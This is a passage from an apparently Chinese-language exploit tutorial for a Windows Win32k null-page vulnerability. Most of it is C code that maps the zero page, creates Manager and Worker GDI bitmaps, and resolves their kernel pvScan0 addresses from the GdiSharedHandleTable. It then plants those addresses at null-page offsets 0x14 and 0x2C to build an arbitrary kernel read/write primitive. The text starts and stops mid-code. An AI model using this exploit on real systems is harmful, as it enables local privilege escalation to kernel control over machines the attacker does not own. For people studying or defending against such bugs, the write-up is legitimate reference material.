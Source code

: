 ```
exit(-1);
`}`
fun(GetCurrentProcess(), &amp;baseAddr, 0, &amp;size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);//分配内存空间
printf("success to allocate Zero Page!\n");
`}`
```

分别创建Work、Manager的bitmap对象，并计算得到偏移量，为了更改Manager的pvScan0为Worker的pvScan0偏移量，就要使v4为Manager的pvScan偏移量，a2[0]为Wokerpvscan0对象偏移量，于是，要在零页构造要被读取的数据（留意这里pvScan0跟pvScan0的偏移量不一样，pvScan0的偏移量保存的是pvScan0指针的地址，而pvScan0指针，保存的是另一数据的地址）

```
unsigned int bbuf[0x60] = `{` 0x90 `}`;
HANDLE gManger = CreateBitmap(0x60, 1, 1, 32, bbuf);
HANDLE gWorker = CreateBitmap(0x60, 1, 1, 32, bbuf);


DWORD getpeb()
`{`
//读取fs寄存器偏移量0x30,即为PEB
DWORD p = (DWORD)__readfsdword(0x30);
return p;
`}`
DWORD gTableOffset = 0x094;
DWORD getgdi()
`{`
return *(DWORD*)(getpeb() + gTableOffset);
`}`
DWORD gtable;
PVOID getpvscan0(HANDLE h)
`{`
if (!gtable)
gtable = getgdi();
// Bitmap句柄的末尾四字节为GDICELL在GdiShareHandleTable中的索引，通过LOWROD来取
DWORD p = (gtable + LOWORD(h) * sizeof(GDICELL)) &amp; 0x00000000ffffffff;
GDICELL* c = (GDICELL*)p;
return (char*)c-&gt;pKernelAddress + 0x30;
`}`


//得到偏移量
PVOID managerpv= getpvscan0(gManger);
PVOID workpv = getpvscan0(gWorker);


//使tagwindowstation-&gt;spklList-&gt;hkl（内存偏移为0x00000014） = workpvscan0偏移量
*(DWORD*)(0x14) = (DWORD)(workpv);
//使tagwindowstation-&gt;spklList-&gt;piiex（内存偏移为0x0000002c）= managerpvscan0偏移量
*(DWORD*)(0x2C) = (DWORD)(managerpv);


// 由于拷贝384字节，设置buf为大于384字节即可，并将buf每个字节设置0，避免读取空
//为跳过While循环，我们令DWORD Buf[0] = workpvscan0偏移量，由于类型为DWORD，因此每次读取4字节。


char buf[0x200];
RtlSecureZeroMemory(&amp;buf, 0x200);


PVOID *p = (PVOID*)&amp;buf;
p[0] = (PVOID)wo
```
